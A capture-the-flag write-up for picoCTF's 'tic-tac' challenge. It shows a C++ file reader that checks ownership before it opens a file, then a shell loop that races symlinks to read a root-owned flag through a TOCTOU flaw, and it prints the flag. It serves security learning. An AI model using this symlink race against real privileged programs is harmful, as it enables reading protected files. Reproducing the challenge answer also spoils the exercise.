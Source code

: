 # tic-tac
> Someone created a program to read text files; we think the program reads files with root privileges but apparently it only accepts to read files that are owned by the user running it.

> Additional details will be available after launching your challenge instance.

## About the Challenge
We have been given access to an SSH server, and there are 3 files in the `/home/ctf-player` directory. The files are `flag.txt` which contains the flag, `src.cpp` the source code of the file, and `txtreader` the compiled src.cpp file. Here is the content of the `src.cpp`

```cpp
#include <iostream>
#include <fstream>
#include <unistd.h>
#include <sys/stat.h>

int main(int argc, char *argv[]) {
    if (argc != 2) {
        std::cerr << "Usage: " << argv[0] << " <filename>" << std::endl;
        return 1;
    }                                                                                                                             
    
    std::string filename = argv[1];
    std::ifstream file(filename);
    struct stat statbuf;

    // Check the file's status information.
    if (stat(filename.c_str(), &statbuf) == -1) {
        std::cerr << "Error: Could not retrieve file information" << std::endl;
        return 1;
    }
    
    // Check the file's owner.
    if (statbuf.st_uid != getuid()) {
        std::cerr << "Error: you don't own this file" << std::endl;
        return 1;
    }
    // Read the contents of the file.
    if (file.is_open()) {
        std::string line;
        while (getline(file, line)) {
            std::cout << line << std::endl;
        }
    } else {
        std::cerr << "Error: Could not open file" << std::endl;
        return 1;
        }
    return 0;
}
```

So if we run `./txtreader flag.txt`, the output is `Error: you don't own this file` because to open `flag.txt` file we need to login as `root` first

![preview](images/preview.png)

## How to Solve?
If we check the tag of the chall is `TOCTOU` vulnerability (Time-Of-Check Time-Of-Use). And then im searching about `TOCTOU` vulnerability in C program and then I found this website (You can access the website [here](https://samsclass.info/127/proj/E10.htm))

You run this command to solve the chall and obtain the flag

```shell
echo "PUBLIC INFORMATION" >> public
for i in {1..1000}; do ln -sf flag.txt flip; ln -sf public flip; done
while true; do ln -sf flag.txt flip; ln -sf public flip; done &
for i in {1..30}; do ./txtreader flip; done
```

So, first you need to create a file that can be accessed by yourself called `public`. And then testing the flipping rate. And then flips the link from `public` to `flag.txt` rapidly and runs in the background. And then try to execute the `txtreader` file multiple times to get the flag

![flag](images/flag.png)

```
picoCTF{ToctoU_!s_3a5y_0490d70a}
```